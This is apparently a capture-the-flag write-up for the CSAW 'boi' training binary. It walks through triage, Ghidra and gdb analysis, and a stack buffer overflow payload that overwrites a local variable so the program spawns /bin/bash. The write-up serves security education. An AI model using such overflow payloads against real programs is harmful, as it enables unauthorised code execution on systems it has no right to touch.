


# boi writeup

## Triage

- You know the drill, go play around.

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ file boi
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ checksec boi
[*] '/home/noobuntu/nightmare/bof/simple_bof/boi/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Let's run this bad boy

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ ./boi
Are you a big boiiiii??
Yeah
Pet 09 Aug 2024 11:48:59 CEST
```

- It waits for our input and when we enter it prints out the output of `date` command.
- It doesn't seem to be crashing when supplying something stupidly large:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 -c 'print("A"*500)' | ./boi
Are you a big boiiiii??
Pet 09 Aug 2024 11:51:00 CEST
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 -c 'print("A"*5500)' | ./boi
Are you a big boiiiii??
Pet 09 Aug 2024 11:51:09 CEST
```

- Time for `ltrace`

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ ltrace ./boi  > /dev/null
__libc_start_main(0x400641, 1, 0x7fffe3948f08, 0x4006e0 <unfinished ...>
puts("Are you a big boiiiii??")                                                               = 24
read(0yes
, "yes\n", 24)                                                                          = 4
system("/bin/date" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                        = 0
+++ exited (status 0) +++
```

- Well it seems like it doesn't do anything with our input, but I was right about `date` command.
- Let's try `strings`

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ strings boi
/lib64/ld-linux-x86-64.so.2
7XO;#
libc.so.6
puts
__stack_chk_fail
read
system
__libc_start_main
__gmon_start__
GLIBC_2.4
GLIBC_2.2.5
UH-P
AWAVA
AUATL
[]A\A]A^A_
Are you a big boiiiii??
/bin/bash
/bin/date
--- snip ---
```

- Notice `/bin/bash` along with `/bin/date` it may come in handy.

## Static analysis

- Here is decompiled `main` from ghidra:



- However, there seems to be another function in this binary that I've initially overlooked.
- Decompiling `run_cmd` function in ghidra and it looks like this:



- So this function takes a parameter and puts it into `system` function, so it just executes whatever we pass in that parameter.

- Judging by the code, it's clear what we have to do.
- We have to overflow `input_buffer` so that it overwrites `target_variable` with `0xcaf3baee`.
- So in LE it's actually `\xee\xba\xf3\xca`
- That way we will execute `/bin/bash` instead of `/bin/date` using `run_cmd` function.
- However, we can see it used `read` syscall wrapper function in C to read `0x18` (24) bytes into `input_buffer`.
- ~~Also, this is not a buffer at all, its integer. Possibly dword integer.~~

## Dynamic analyis

- It's gdb time...


```asm
gef➤  diass main
Undefined command: "diass".  Try "help".
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000400641 <+0>:     push   rbp
   0x0000000000400642 <+1>:     mov    rbp,rsp
   0x0000000000400645 <+4>:     sub    rsp,0x40
   0x0000000000400649 <+8>:     mov    DWORD PTR [rbp-0x34],edi
   0x000000000040064c <+11>:    mov    QWORD PTR [rbp-0x40],rsi
   0x0000000000400650 <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000400659 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040065d <+28>:    xor    eax,eax
   0x000000000040065f <+30>:    mov    QWORD PTR [rbp-0x30],0x0
   0x0000000000400667 <+38>:    mov    QWORD PTR [rbp-0x28],0x0
   0x000000000040066f <+46>:    mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000400677 <+54>:    mov    DWORD PTR [rbp-0x18],0x0
   0x000000000040067e <+61>:    mov    DWORD PTR [rbp-0x1c],0xdeadbeef
   0x0000000000400685 <+68>:    mov    edi,0x400764
   0x000000000040068a <+73>:    call   0x4004d0 <puts@plt>
   0x000000000040068f <+78>:    lea    rax,[rbp-0x30]
   0x0000000000400693 <+82>:    mov    edx,0x18
   0x0000000000400698 <+87>:    mov    rsi,rax
   0x000000000040069b <+90>:    mov    edi,0x0
   0x00000000004006a0 <+95>:    call   0x400500 <read@plt>
   0x00000000004006a5 <+100>:   mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:   cmp    eax,0xcaf3baee
   0x00000000004006ad <+108>:   jne    0x4006bb <main+122>
   0x00000000004006af <+110>:   mov    edi,0x40077c
   0x00000000004006b4 <+115>:   call   0x400626 <run_cmd>
   0x00000000004006b9 <+120>:   jmp    0x4006c5 <main+132>
   0x00000000004006bb <+122>:   mov    edi,0x400786
   0x00000000004006c0 <+127>:   call   0x400626 <run_cmd>
   0x00000000004006c5 <+132>:   mov    eax,0x0
   0x00000000004006ca <+137>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004006ce <+141>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004006d7 <+150>:   je     0x4006de <main+157>
   0x00000000004006d9 <+152>:   call   0x4004e0 <__stack_chk_fail@plt>
   0x00000000004006de <+157>:   leave
   0x00000000004006df <+158>:   ret
End of assembler dump.
gef➤  b *main+103
Breakpoint 1 at 0x4006a8
```

- Judging by the following `gdb` output, it looks like it's not an integer at all.
- Because `eax` gets filled with `FFFF`:

```sh
gef➤  r
Starting program: /home/noobuntu/nightmare/bof/simple_bof/boi/boi
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Are you a big boiiiii??
AAAABBBBCCCCDDDDEEEEFFFF

Breakpoint 1, 0x00000000004006a8 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────── registers ────
$rax   : 0x46464646
$rbx   : 0x0
$rcx   : 0x00007ffff7d147e2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x18
$rsp   : 0x00007fffffffdd40  →  0x00007fffffffde98  →  0x00007fffffffe232  →  "/home/noobuntu/nightmare/bof/simple_bof/boi/boi"
$rbp   : 0x00007fffffffdd80  →  0x0000000000000001
$rsi   : 0x00007fffffffdd50  →  "AAAABBBBCCCCDDDDEEEEFFFF"
$rdi   : 0x0
$rip   : 0x00000000004006a8  →  <main+0067> cmp eax, 0xcaf3baee
$r8    : 0x0
$r9    : 0x00000000006022a0  →  "Are you a big boiiiii??\n"
$r10   : 0x00007ffff7c065e8  →  0x000f001200001a64
$r11   : 0x246
$r12   : 0x00007fffffffde98  →  0x00007fffffffe232  →  "/home/noobuntu/nightmare/bof/simple_bof/boi/boi"
$r13   : 0x0000000000400641  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd40│+0x0000: 0x00007fffffffde98  →  0x00007fffffffe232  →  "/home/noobuntu/nightmare/bof/simple_bof/boi/boi"  ← $rsp
0x00007fffffffdd48│+0x0008: 0x0000000100000000
0x00007fffffffdd50│+0x0010: "AAAABBBBCCCCDDDDEEEEFFFF"   ← $rsi
0x00007fffffffdd58│+0x0018: "CCCCDDDDEEEEFFFF"
0x00007fffffffdd60│+0x0020: "EEEEFFFF"
0x00007fffffffdd68│+0x0028: 0x0000000000000000
0x00007fffffffdd70│+0x0030: 0x0000000000000000
0x00007fffffffdd78│+0x0038: 0xdfef020746e45f00
─────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069b <main+005a>      mov    edi, 0x0
     0x4006a0 <main+005f>      call   0x400500 <read@plt>
     0x4006a5 <main+0064>      mov    eax, DWORD PTR [rbp-0x1c]
 →   0x4006a8 <main+0067>      cmp    eax, 0xcaf3baee
     0x4006ad <main+006c>      jne    0x4006bb <main+122>
     0x4006af <main+006e>      mov    edi, 0x40077c
     0x4006b4 <main+0073>      call   0x400626 <run_cmd>
     0x4006b9 <main+0078>      jmp    0x4006c5 <main+132>
     0x4006bb <main+007a>      mov    edi, 0x400786
─────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a8 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a8 → main()
────────────────────────────────────────────────────────────────────────────
gef➤
gef➤  p $eax
$2 = 0x46464646
```

- So the offset is 20 bytes, after that whatever we enter gets filled right in `target_variable`.
- So to craft our exploit:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\xee\xba\xf3\xca")' | ./boi
Are you a big boiiiii??
```

- Seems like nothing happend?
- But piping the last command into `ltrace ./boi` shows that `/bin/bash` actually gets executed:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\xee\xba\xf3\xca")' | ltrace ./boi
__libc_start_main(0x400641, 1, 0x7fff0b0d4028, 0x4006e0 <unfinished ...>
puts("Are you a big boiiiii??"Are you a big boiiiii??
)               = 24
read(0, "AAAAAAAAAAAAAAAAAAAA\356\272\363\312", 24) = 24
system("/bin/bash" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                        = 0
+++ exited (status 0) +++
```

- I've wrote `expl.py` to automate this process, and I can see that I'm getting the shell properly:


```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/boi$ python3 expl.py
[+] Starting local process './boi': pid 5482
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
noobuntu
```

- So the goal was to pop a shell after all, and that's how I did it.


---

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/04-bof_variable/csaw18_boi
